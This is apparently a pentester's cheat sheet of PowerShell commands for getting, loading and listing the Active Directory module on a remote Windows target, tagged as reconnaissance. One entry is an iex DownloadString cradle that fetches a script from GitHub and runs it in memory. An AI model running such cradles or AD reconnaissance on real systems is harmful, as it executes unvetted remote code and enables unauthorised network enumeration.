 # powershell

% ad, windows, powershell

## powershel - AD - Downoad the AD Module DLL
#plateform/windows #target/remote  #cat/RECON 

```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online
```

## powershel - AD - Find the AD Module DLL
#plateform/windows #target/remote  #cat/RECON 

```
gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## powershel - AD - download and load AD Module
#plateform/windows #target/remote  #cat/RECON 

```
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

## powershel - AD - load AD Module
#plateform/windows #target/remote  #cat/RECON 

```
Import-Module .\Microsoft.ActiveDirectory.Management.dll
```

## powershel - AD - Check commands
#plateform/windows #target/remote  #cat/RECON 

```
Get-Command -Module Microsoft.ActiveDirectory.Management
```



